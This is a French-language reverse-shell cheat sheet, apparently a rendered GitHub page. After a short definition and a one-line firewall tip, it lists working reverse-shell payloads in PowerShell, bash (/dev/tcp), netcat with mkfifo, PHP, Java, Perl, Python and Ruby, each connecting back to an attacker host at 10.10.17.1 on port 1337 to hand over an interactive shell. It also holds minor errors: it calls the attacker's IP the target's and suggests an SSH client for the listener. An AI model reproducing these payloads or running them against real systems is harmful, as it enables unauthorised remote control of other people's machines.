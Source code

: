 Un shell inversé ou "reverse shell" est un script ou un programme exécutable qui permet un accès shell interactif à un système via une connexion sortante de ce système

Les pirates malveillants utilisent souvent des shells inversés pour envoyer des commandes à un système compromis, et ils peuvent être utilisés à des fins légitimes, telles que l'administration de serveur distant

# Windows Power Shell
Pour les systèmes Windows, un shell inversé peut être créé à l'aide de PowerShell

Exemple de shell PowerShell inversé :
```
$sm=(New-Object Net.Sockets.TCPClient("10.10.17.1",1337)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
$sm.Write($st,0,$st.Length)}
```

Ce script établit une connexion shell inverse de la machine cible à la machine de l'attaquant, qui écoute sur le port TCP 1337. L'adresse IP de la machine cible est "10.10.17.1" dans cet exemple

Vous n'avez plus qu'à vous connecter via un client SSH

## Alternative avec HTA
Une autre méthode consiste à utiliser des fichiers HTA avec PowerShell intégré. Par exemple, un shell inversé peut être intégré dans un fichier HTA et exécuté à l'aide de `mshta.exe`

Pour empêcher l'utilisation inverse du shell, vous pouvez imposer un contrôle strict sur les connexions sortantes à l'aide d'un pare-feu et vous assurer que toute activité suspecte est surveillée de près

# Linux bash
Pour envoyer des commandes à un shell inversé sur Linux, vous devez établir un listener sur votre machine locale, puis vous connecter au shell inverse sur la machine cible. 

Voici un exemple de base en utilisant Netcat:
## Établissez un Listener
- Sur votre machine locale, démarrez un listener Netcat pour recevoir la connexion shell inversée : `nc -l -p 1337`
  - Cette commande écoute les connexions entrantes sur le port 1337.

## Envoyer des commandes
- Une fois le shell inversé connecté, vous pouvez envoyer des commandes comme vous le feriez dans une session shell normale
- Pour un shell Bash inversé, vous pouvez utiliser : `bash -i >& /dev/tcp/your_ip/your_port 0>&1`
  - Une fois que le shell inverse se connecte, vous pouvez envoyer des commandes directement au shell
Par exemple, pour vérifier l'utilisateur actuel, vous pouvez taper : `whoami`

# Autres reverse shell
[invicti.com/learn/reverse-shell](https://www.invicti.com/learn/reverse-shell/)
## NetCat
- `ncat -l -p 1337`
- ou `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.1 1337 >/tmp/f`
## PHP
`php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.1/1337;
cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## PERL
```
perl -e 'use Socket;$i="10.10.17.1";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```
### Python
```
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.17.1",1337));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
## RUBY
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.17.1","1337");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```
ou
```
ruby -rsocket -e'f=TCPSocket.open("10.0.17.1",1337).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
